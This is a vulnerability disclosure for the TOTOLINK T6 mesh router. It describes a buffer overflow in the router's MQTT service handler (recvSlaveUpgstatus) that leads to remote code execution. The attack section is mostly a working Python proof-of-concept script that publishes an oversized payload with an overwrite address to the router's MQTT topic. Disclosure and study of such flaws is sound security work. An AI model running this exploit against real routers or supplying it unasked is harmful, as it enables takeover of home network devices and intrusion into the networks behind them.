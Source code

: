 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability in `MQTT` service that lead to RCE.

# Vulnerability details

The `T6` routers open `MQTT` service and listen on port `1883`. In function `recvSlaveUpgstatus`. The `s` buffer is 68 bytes, and the `sprintf` doesn't check for the length of input.

![](6/1.png)

An attacker can implement a RCE attack by sending a malicious `MQTT` packet.

![](6/2.png)

# POC

```python
import paho.mqtt.client as mqtt

payload = b"A" * 71 + b"\x37\x33\x33\x13"

mqtt_data = b'''
    {
        "status":"1",
        "ip":"%s"
    }
''' % payload

client = mqtt.Client()
client.connect("192.168.0.1", 1883, 60)
client.publish("totolink/router/recvSlaveUpgstatus", mqtt_data)
```




